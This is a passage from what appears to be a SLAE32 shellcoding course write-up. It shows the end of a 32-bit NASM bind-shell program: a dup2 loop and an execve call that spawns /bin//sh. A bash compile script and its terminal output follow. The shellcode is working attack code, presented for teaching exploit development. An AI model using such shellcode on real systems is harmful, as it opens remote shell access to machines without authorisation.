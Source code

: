 ```nasm
	jnz dup2loop		; jump to loop if ZF is not zero, else continue

	; execve
	xor eax, eax
	mov al, 0xb		; b is the hex value of the decimal 11 for execve        

	xor ebx, ebx
	push ebx		; NULL argument
	push ebx		; NULL argument
	push ebx		; null terminator

        ; PUSH /bin//sh
        push 0x68732f2f		; "hs//"
        push 0x6e69622f		; "nib/"

	mov ebx, esp		; ebx points at "/bin//sh" at the top of the stack

	int 0x80		; exec execve syscall
```

## Testing the Bind Shell

In order to test Bind Shell, we need to compile it. Compilation process consists of 2 separate processes:

- Assembling: can happen with the `nasm` assembler, which assembles the input file (`.nasm`) and directs output to the output file (`.o`) if specified. It basically "translates" the `Assembly` code.
- Linking: can happen with the GNU linker `ld`, which combines a number of object and archive files, relocates their data and ties up symbol references. It basically provides information such as where the entry point of a program is. By default the entry point is `_start` but this can be changed.

The following `bash` script automates that process:

```bash
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -felf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -o $1 $1.o

echo '[+] Done!'
```

The following command does the compilation and creates the executable `bind`:

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/1_Shell_bind_tcp$ ./compile.sh bind
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
```
